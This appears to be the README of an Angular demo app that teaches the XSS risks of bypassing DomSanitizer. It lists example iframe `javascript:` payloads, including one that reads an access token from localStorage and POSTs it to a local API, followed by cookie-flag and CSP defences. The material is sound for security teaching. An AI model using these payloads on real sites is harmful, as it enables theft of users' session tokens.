

# AngularSecurity

Simple Angular application with HTML security use cases.

## Description

Whatever the method, you end up displaying some data that is **untrusted** because it comes from the user. This data can be a simple string, a URL, or even a piece of HTML code. The data is displayed with `[innerHTML]` directive, which is a security risk when the data is not sanitized.

You explicitly disable the security by using the `bypassSecurityTrustHtml` method from the `DomSanitizer` service. This method tells Angular that you are aware of the security risk and that you are taking the responsibility of sanitizing the data yourself.

## How to test the application

Run the application with `ng serve` and navigate to `http://localhost:4200/`.

Run the db server with `npm run dbserver` and navigate to `http://localhost:3000/`.

You can type HTML code in the input field and it will be rendered as HTML.
Examples: 

- `<h1>Test</h1>` will render as a title.
- `<script>alert('Hello')</script>` will **not** render as an alert.
- `` will render as an image.
- `<iframe src="javascript:alert('Iframealert');">` will render as an iframe with an alert.
- `<iframe src="javascript:alert(localStorage.getItem('access_token'))">` will render as an iframe with an alert with the token value.
- `<iframe src="javascript:fetch('http://localhost:3000/data/1')">` will request a distant value.
- `<iframe src="javascript:fetch('http://localhost:3000/data', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({name: localStorage.getItem('access_token'), price: 6})})">` will post the token to a distant api.

Protect your cookies from javascript access by setting the `HttpOnly` flag on the server side.

A cookie with the `Secure` attribute is only sent to the server with an encrypted request over the HTTPS protocol.

The `SameSite` attribute can be set to `Strict` or `Lax` to prevent CSRF attacks.



OSS tools for DOM security:

- [DOMPurify](https://github.com/cure53/DOMPurify)
- [CSP Reference](https://content-security-policy.com/)

## How to secure the application with CSP

- Add the `Content-Security-Policy` header to the server response.
In the `index.html` file, add the following meta tag:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src 'self'; script-src 'self' https://apis.google.com;">
```

You can add more directives to the CSP header to secure your application.
You can also use your server implementation to add the CSP header to the response.

[CSP Nginx](https://content-security-policy.com/examples/nginx/)

## Credits

Check this video by Manfred Steyer: [Angular Security live hacking with Martina Kraus](https://www.youtube.com/live/HAsWTXIMJnQ)